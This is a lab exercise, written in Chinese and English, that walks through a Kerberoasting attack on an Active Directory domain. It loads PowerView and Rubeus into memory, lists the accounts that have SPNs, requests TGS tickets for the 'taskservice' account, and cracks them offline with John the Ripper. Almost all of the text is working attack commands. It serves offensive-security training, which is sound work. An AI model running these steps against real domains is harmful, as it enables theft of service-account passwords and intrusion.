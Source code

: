 # Exercise 4 - Kerberos Roasting

## Tools

所需工具:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- john: [https://www.openwall.com/john/](https://www.openwall.com/john/)

## Exercise

在此練習中，我們將使用 Kerberoasting攻擊，利用密碼爆破方式取得服務帳號 "taskservice".

載入Powerview和Rubeus兩個powershell模組

```powershell
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Get all domain users with a Service Principal Name (SPN).

列舉所有有註冊SPN的domain users

```powershell
Get-DomainUser -SPN | select samaccountname, description, pwdlastset, serviceprincipalname
```

也可使用rubeus取得相關資訊

```powershell
Invoke-Rubeus -Command "kerberoast /stats"
```

使用Rubeus發起TGS請求並將TGS輸出到檔案krb5tgs.txt

```powershell
Invoke-Rubeus -Command "kerberoast /user:taskservice /format:hashcat /outfile:krb5tgs.txt"
```

利用john the ripper離線破解TGS，嘗試取得taskserivice明文密碼

```powershell
cd C:\attacker-tools\john\run
.\john.exe <path-to-krb5tgs.txt> --wordlist=..\..\example.dict --rules=passphrase-rule2
```